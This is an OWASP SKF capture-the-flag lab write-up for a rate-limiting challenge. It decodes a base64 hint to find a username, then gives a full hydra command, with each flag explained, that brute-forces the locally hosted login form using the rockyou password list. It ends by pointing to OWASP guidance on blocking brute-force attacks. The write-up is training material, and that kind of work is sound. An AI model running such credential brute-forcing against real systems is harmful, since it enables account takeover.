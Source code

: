 # Brute force login

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:java-ratelimiting
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:java-ratelimiting
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

![](../../.gitbook/assets/python/Ratelimiting/1.png)

The application shows a admin login form, but we don't have the credentials, we'll have to somehow login inorder to solve the challenge, the name of the challenge is 'Ratelimiting', from that we know that we need to bruteforce login, but what would be the username?

Let's do more investigation, upon viewing the source code, there is a base64 message commented out there.

![](../../.gitbook/assets/python/Ratelimiting/2.png)

We are going to decrypt the base64 encoded string using terminal as shown in the below image.

![](../../.gitbook/assets/python/Ratelimiting/3.png)

```
echo RGV2ZWxvcGVyIHVzZXJuYW1lOiBkZXZ0ZWFtCkNsaWVudDogUm9ja3lvdQ== | base64 -d
Developer username: devteam
Client: Rockyou
```

## Exploitation

From this, it seems that the developer has an account with username devteam, so we probably need to bruteforce into that =) Client, rockyou? Are we referring to the rockyou wordlist?

Rockyou Wordlist - [https://github.com/danielmiessler/SecLists/blob/master/Passwords/Leaked-Databases/rockyou-20.txt](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Leaked-Databases/rockyou-20.txt)

So we'll have to bruteforce the login form which is post based using some tool, I prefer hydra & burp suite's intruder to do this, in this writeup, i'll demonstrate this using hydra.

Bruteforcing using Hydra

```
hydra -l devteam -P Desktop/pentest/rockyou.txt 0.0.0.0 -s 5000 http-post-form "/:username=^USER^&password=^PASS^:F=Invalid"

let's make this clear since it might be confusing for newbies or those who have never used hydra before.

-l denotes username here.
-P denotes the location of the wordlist with the passwords
0.0.0.0 is the host address
-s denotes the target port.
http-post-form is used to specify that this is a http-post-form.
 "/:username=^USER^&password=^PASS^ <-- These are the post parameters which are being bruteforced.
 F=Invalid <-- This parameter is used to filter out invalid logins.
```

After you launch a bruteforce attack against the login function, after several minutes, you'll get the password like the below screenshot.

![](../../.gitbook/assets/python/Ratelimiting/4.png)

## Additional sources

Please refer to the OWASP's guide for protecting against such type of bruteforce attacks which happens because ratelimiting is not set.

{% embed url="https://www.owasp.org/index.php/Blocking_Brute_Force_Attacks" %}
